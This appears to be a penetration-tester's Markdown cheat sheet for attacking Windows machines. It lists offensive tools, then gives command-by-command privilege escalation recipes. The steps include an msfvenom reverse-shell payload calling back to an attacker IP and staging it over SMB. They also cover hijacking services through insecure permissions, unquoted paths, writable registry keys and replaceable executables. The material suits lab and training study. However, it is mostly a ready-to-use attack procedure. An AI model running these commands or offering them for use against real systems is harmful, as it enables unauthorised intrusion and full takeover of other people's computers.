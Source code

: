 # Windows

## Evil-WinRM

Ultimate shell

## MobaDiff

Compare multiple files/directories

## Detect it Easy

Tool to detect the type of a program

## Enum4Linux

Enumerates Windows stuff running on a machine

## Kerbrute

Brute forces active directory

## SMBMap

Detects and exploits Samba vulnerabilities

## Impacket

Series of scripts that gets you inside a Windows Machine

## PowerCat

NetCat for Powershell - 
https://github.com/besimorhino/powercat

## Shortcut Modification

https://github.com/theonlykernel/atomic-red-team/blob/master/atomics/T1023/T1023.md

## Powershell scripts without powershell - PowerlessShell

https://github.com/Mr-Un1k0d3r/PowerLessShell


## Windows Privilege Escalation

### Generate Reverse Shell

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
````

### Start Samba Server

```
sudo smbserver.py kali .
```

### Copy from Samba Server on Windows

```
copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe
```

### Insecure Service Permissions

- Check user permissions for service:
```
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user SERVICENAME
```

- Query Service privileges:
```
sc qc SERVICENAME
```

- Set binary path to the reverse shell:
```
sc config SERVICENAME binpath= "\"C:\PrivEsc\reverse.exe\""
```

- Start Service:
```
net start SERVICENAME
```

### Unquoted Service Path

- Check Binary Path of Service:
```
sc qc SERVICENAME
```

- Check if user can write to directory:
```
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

- Copy the reverse shell to the directory with the unsupicious name 
```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

- Start the service:
```
net start SERVICENAME
```

### Weak Registry Permissions

- Check permissions of service:

```
sc qc SERVICENAME
```

- Check if user has write permissions:

```
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\SERVICENAME
```

- Overwrite the ImagePath registry key to point to the reverse shell:

```
reg add HKLM\SYSTEM\CurrentControlSet\services\SERVICENAME /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

- Start Service:

```
net start SERVICENAME
```

### Insecure Service Executables

- Check service privileges:

```
sc qc SERVICENAME
```

- Check if user has write permissions:

```
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\SERVICENAME.exe"
```

- Replace the service.exe with the reverse shell:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\SERVICENAME.exe" /Y
```


- Start the service:

```
net start SERVICENAME
```




## Various Techniques to send malware to Windows Machines

https://tryhackme.com/room/weaponization
